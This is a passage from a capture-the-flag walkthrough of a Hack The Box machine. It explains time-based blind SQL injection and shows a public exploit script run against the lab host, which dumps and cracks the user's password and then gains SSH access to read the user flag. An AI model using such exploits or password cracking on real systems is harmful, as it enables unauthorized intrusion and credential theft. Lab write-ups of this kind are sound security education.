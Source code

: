 <blockquote> <i>The attacker may also be interested to extract some information or at least verify a few assumptions. ... this can be done by integrating the time delay inside a conditional statement</i>. </blockquote>

<p>By capturing the <code>elapsed_time</code> while executing the payload we can determine the right first character when the query takes <code>TIME</code> more time. Once successful, the loop stores that character and moves on to the next - repeating the process until no further characters trigger the sleep function, letting us know we have the full value.</p>

<p>Alright enough theory - let's run the exploit and hope for the best.</p>

{% highlight shell %}
python 46635.py -u http://10.10.10.138/writeup --crack --wordlist /root/Desktop/rockyou.txt 

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
{% endhighlight %}

<p>Bingo, user creds! So here is a proud facepalm moment. Prior to above run, I ran the exploit without <code>--crack</code> or <code>--wordlist</code> and got the same output as above without the password cracked output. In my momentary ignorance I completely ignored that this even looked like a hash, took that line of output verbatim and actually thought this was the password. As you can see below clearly that did not get me far.</p>

<p>
<img src="{{ '/assets/htb-writeup/post-exploit1.PNG' | relative_url }}">
</p>

<p>Thankfully I quickly realized my error and ran the cracked variant. Just like that we have user access through SSH.</p>

{% highlight shell %}
ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ pwd
/home/jkr
jkr@writeup:~$ ls
user.txt
jkr@writeup:~$ cat user.txt 
d4e493*******************
jkr@writeup:~$ 
{% endhighlight %}

<h1>Root exploitation</h1>
